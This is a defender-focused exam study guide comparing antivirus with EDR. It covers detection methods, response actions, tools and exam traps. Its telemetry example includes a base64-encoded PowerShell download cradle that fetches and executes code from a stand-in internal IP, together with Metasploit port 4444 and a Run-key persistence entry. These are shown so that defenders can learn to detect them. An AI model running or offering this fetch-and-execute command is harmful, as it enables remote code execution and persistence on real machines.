


# Antivirus (AV) and Endpoint Detection and Response (EDR)

## TCM Exam Objectives

Before taking the PSAA exam, you must be able to:

- Compare traditional Antivirus (AV) with Endpoint Detection and Response (EDR) capabilities
- Configure and interpret Application Allowlisting using AppLocker and WDAC
- Create and analyze host-based firewall rules (Windows Defender Firewall)
- Examine file system and registry artifacts for forensic evidence of compromise
- Analyze Linux syslog and auth logs for SSH brute force and privilege escalation
- Investigate process and service information to detect malware and persistence
- Query Windows Event Logs (System, Security, Application) for incident detection
- Correlate endpoint telemetry with network evidence for comprehensive incident response

Antivirus (AV) and Endpoint Detection and Response (EDR) are the two primary layers of endpoint defense. AV provides signature-based prevention against known malware; EDR provides behavioral detection, investigation, and response capabilities against advanced threats.

- Signature-based AV: how it works, its strengths and blind spots
- EDR: behavioral detection, telemetry collection, and response actions
- Key differences: detection method, response capability, visibility
- Modern EDR features: process tree analysis, file retrospection, IOA detection


## Traditional Antivirus (AV)

### How AV Works

AV operates on a signature + heuristic model:

**Signature-Based Detection:** AV maintains a database of file hashes and byte patterns that correspond to known malware. When a file is written to disk or executed, AV hashes it and compares to this database.

| Component | Description | Limitation |
|-----------|-------------|------------|
| Signature Database | MD5/SHA1/SHA256 hashes of known malware files | Zero-day variants bypass |
| String/Pattern Matching | Searches for known malicious byte sequences | Easily evaded by obfuscation |
| File Emulation | Runs file in sandbox to detect behavior | Resource intensive, slow |

**Heuristic Detection:** AV analyzes file behavior to detect potentially malicious actions without requiring a signature match. Heuristics detect variants of known malware families by recognizing behavioral patterns.

### AV Blind Spots

| Attack Type | Why AV Fails | Example |
|-------------|--------------|---------|
| Fileless malware | No file to scan, lives in memory | PowerShell payloads, WMI persistence |
| Zero-day exploits | No signature exists in database | Brand new malware variant |
| Polymorphic malware | Changes signature with every infection | Metamorhic engines, oligomorphic code |
| Custom tooling | Built by attacker, never seen before | Custom C2 implants |
| LOLBins | Uses legitimate Microsoft-signed binaries | `rundll32.exe`, `mshta.exe`, `powershell.exe` |


## Endpoint Detection and Response (EDR)

EDR addresses AV's blind spots by shifting from signature-based detection to behavioral detection, continuous monitoring, and automated response.

### Core EDR Capabilities

| Capability | Description | PSAA Relevance |
|-----------|-------------|----------------|
| Process Telemetry | Every process creation logged: parent PID, command line, user | Identify lateral movement, LOLBin abuse |
| Network Connection Tracking | Every outbound connection logged: process, destination, port | Identify C2 beaconing, data exfiltration |
| File System Monitoring | File creates, writes, deletes, renames tracked | Identify ransomware encryption, payload drops |
| Registry Monitoring | Registry key modifications tracked | Identify persistence mechanisms |
| Script/PowerShell Monitoring | PowerShell command-line capture and deobfuscation | Identify fileless attacks |
| Process Tree Analysis | Parent-child relationship mapping | Visualize full attack chain |
| File Retrospection | Re-analyze files when new IOC becomes available | Find infections that evaded initial detection |

### EDR Detection Methods

**Indicator of Attack (IOA):** Detects the *behavior* rather than the file. Example: `powershell.exe` connecting to an external IP and writing to `%APPDATA%` � this behavioral chain is malicious regardless of the PowerShell script content.

**MITRE ATT&CK Mapping:** EDR alerts map to MITRE ATT&CK techniques (T1059.001 � PowerShell, T1003 � Credential Dumping, T1053.005 � Scheduled Task). This standardizes the investigation framework.

**Threshold-Based Alerts:** If a process creates 10,000 files in 60 seconds, EDR alerts for ransomware-like behavior regardless of the file content.

### EDR Response Actions

| Response | Description | Use Case |
|----------|-------------|----------|
| Isolate Host | Block all network traffic except to EDR cloud | Ransomware containment |
| Kill Process | Terminate a specific malicious process | Stop active data exfiltration |
| Delete File | Remove a malicious file from disk | Clean up known malware |
| Collect Forensic Data | Gather process dump, registry hive, event logs | Deep investigation |
| Rollback | Revert files changed by ransomware | Recovery after encryption event |
| Run Remediation Script | Execute custom response script | Custom containment |

## AV vs. EDR: Detailed Comparison


| Feature | Traditional AV | EDR |
|---------|---------------|-----|
| Detection Method | Signatures + basic heuristics | Behavioral + signature + ML + IOA |
| Coverage | Known malware, limited variants | Known + unknown + fileless + zero-day |
| Visibility | File operations | Process, network, registry, file, memory |
| Alert Context | "Malware detected" | Full process tree + network graph |
| Response | Quarantine / Delete | Isolate, kill, rollback, investigate |
| Investigation | None | Built-in search, process timeline, IoC hunting |
| Performance Impact | Moderate (scheduled scans) | Low (continuous agent) |
| Bypass Difficulty | Easy (packers, obfuscation) | Hard (behavioral chains are harder to fake) |

> **Exam Tip:** When writing incident reports, use the STAR method: Situation (what was alerted), Task (what you needed to find), Action (tools and filters used), Result (IOCs confirmed and remediation steps).

> **Exam Tip:** EDR telemetry correlates process, network, file, and registry events into a single timeline. In an exam scenario, reconstruct the full attack chain from initial access to persistence before concluding.

> **Exam Tip:** Know which EDR response actions require user consent vs. automatic. Isolation and process kill are usually automatic; rollback and forensic collection often require analyst approval.


## Common EDR Tools

| Tool | Type | Notes |
|------|------|-------|
| Microsoft Defender for Endpoint | Enterprise EDR | Native Windows integration, extensive telemetry |
| CrowdStrike Falcon | Cloud-native EDR | Leading market share, incident response |
| SentinelOne | Autonomous EDR | AI-driven, automatic rollback |
| Carbon Black (VMware) | EDR | Strong behavioral detection, open API |
| Elastic Endgame | Open EDR | Free tier, strong SIEM integration |
| Velociraptor | Open source DFIR | Best for forensic collection, not real-time EDR |

## PSAA Scenario: AV vs. EDR

**Scenario: PowerShell downloading and executing a Meterpreter payload.**

| Layer | Would it detect? | Why |
|-------|-----------------|-----|
| AV (signature) | No | PowerShell is legitimate; the payload is obfuscated and never touches disk |
| AV (heuristic) | Maybe | Some AVs detect PowerShell network activity, rarely accurate |
| EDR (behavioral) | Yes | Process tree: `explorer.exe -> powershell.exe -> network connect -> wmic.exe` chain triggers IOA |

## EDR Telemetry Example

```
Time: 14:22:33
Process: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Parent: C:\Windows\System32\rundll32.exe (PID: 4521)
User: NT AUTHORITY\SYSTEM
Command Line: powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAvAGMAYQBsAGMALgB4AG0AbAAnACkA
Network: Outbound connection to 192.168.1.100:4444 (successful)
Registry: Created key HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Updater
```

EDR analysis:
- Process tree: `rundll32.exe` spawning `powershell.exe` with encoded command
- Base64 decoded: `IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/calc.xml')`
- Network: Outbound to suspicious IP on Metasploit default port 4444
- Persistence: Registry Run key creation
- **EDR verdict:** Critical � C2 beaconing + persistence + download cradle

## PSAA Exam Traps

- **AV does NOT detect fileless malware.** Fileless malware lives in memory; AV scans files on disk.
- **EDR does not replace AV.** They are complementary. AV prevents known malware; EDR detects unknown/fast-moving threats.
- **Process tree analysis is EDR's superpower.** EDR reconstructs the full attack sequence from parent-to-child processes.
- **EDR retrospection is unique.** If a new IOC is published, EDR can re-analyze all historical telemetry to find missed infections.



 


## Recap

- AV protects against known malware via signatures and heuristics � effective but limited
- EDR protects against advanced threats via behavioral detection, process monitoring, and network telemetry
- EDR's key advantage is investigation and response � not just detection
